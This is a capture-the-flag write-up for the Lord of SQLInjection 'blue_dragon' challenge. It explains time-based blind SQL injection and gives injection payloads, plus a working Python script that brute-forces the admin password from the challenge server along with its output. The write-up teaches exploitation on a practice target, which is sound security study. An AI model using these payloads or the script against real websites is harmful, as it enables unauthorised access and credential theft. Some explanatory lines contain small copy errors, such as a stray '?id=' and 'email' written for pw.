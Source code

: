 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 27
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/9093a8f1-4e71-4518-91fa-6e53fa905e85)

We are provided with the SQL query:

```sql
SELECT id FROM prob_blue_dragon WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In order to solve this challenge we will have to use a Time-based Blind SQL Injection.

## Time-based Blind SQL Injection

We will be exploiting the Blind SQL Injection vulnerability by triggering time delays depending on whether an injected condition is true or false.

### Retrieving the password length

If we provide the following URI parameter:

```
?id=' OR if(id='admin' AND length(pw)=[length], sleep(3), 1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_blue_dragon WHERE id='' OR if(id='admin' AND length(pw)=[length], sleep(3), 1) -- -' AND pw=''
```

If the length of the `pw` for `id='admin'` is equal to the `[length]` that we provide, the SQL server will sleep for 3 seconds before returning the result. We can brute force the length by checking if response took more that 3 seconds after the request was sent.

### Leaking the password

If we provide the following URI parameter:

```
?id=' OR if(id='admin' AND substr(pw, [index], 1)='[character]', sleep(3), 1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_blue_dragon WHERE id='?id=' OR if(id='admin' AND substr(pw, [index], 1)='[character]', sleep(3), 1) -- -' AND pw=''
```

If the `id='admin'` and character of the `email` at `[index]` is the same as the `[character]` that we provide, the SQL server will sleep for 3 seconds before returning the result. We can brute force the length by checking if response took more that 3 seconds after the request was sent.

### Script

```python title="blue_dragon_script.py"
import requests
import urllib.parse
import string
import time

cookies = {'PHPSESSID': '4qt1p0e0vguiq8oousdc88vhv9'}
url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"
password_length = 0

for x in range(0, 100):
  pre = time.time()
  payload = f"' OR if(id='admin' AND length(pw)={x},sleep(3),1) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?id={encoded_payload}"

  response = requests.get(full_url, cookies=cookies)
  post = time.time()

  if post-pre >= 3:
    password_length = x
    break

print()    
print(f"[!] Payload: ?id={payload}")
print(f"[!] Payload (URL encoded): ?id={encoded_payload}")
print(f"[!] password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR if(id='admin' AND substr(pw,{index},1)='{char}',sleep(3),1) -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?id={encoded_payload}"

    pre = time.time()
    response = requests.get(full_url, cookies=cookies)
    post = time.time()

    if post-pre >= 3:
      password += char
      print()
      print(f"[+] Payload: ?id={payload}")
      print(f"[+] Payload (URL encoded): ?id={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
python .\blue_dragon_script.py

[!] Payload: ?id=' OR if(id='admin' AND length(pw)=8,sleep(3),1) -- -
[!] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+length%28pw%29%3D8%2Csleep%283%29%2C1%29+--+-
[!] password length: 8

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,1,1)='d',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C1%2C1%29%3D%27d%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 1: d

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,2,1)='9',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C2%2C1%29%3D%279%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 2: 9

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,3,1)='4',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C3%2C1%29%3D%274%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 3: 4

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,4,1)='8',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C4%2C1%29%3D%278%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 4: 8

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,5,1)='b',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C5%2C1%29%3D%27b%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 5: b

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,6,1)='8',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C6%2C1%29%3D%278%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 6: 8

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,7,1)='a',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C7%2C1%29%3D%27a%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 7: a

[+] Payload: ?id=' OR if(id='admin' AND substr(pw,8,1)='0',sleep(3),1) -- -
[+] Payload (URL encoded): ?id=%27+OR+if%28id%3D%27admin%27+AND+substr%28pw%2C8%2C1%29%3D%270%27%2Csleep%283%29%2C1%29+--+-
[+] Character at index 8: 0

[!] Extracted password: d948b8a0
[!] Final payload: ?pw=d948b8a0
```

If we provide the following URI parameter:

```
?pw=d948b8a0
```

The resultant query becomes:

```sql
SELECT id FROM prob_blue_dragon WHERE id='' AND pw='d948b8a0'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d8b1ad72-b6e9-45cf-8668-51c4825cd39d)
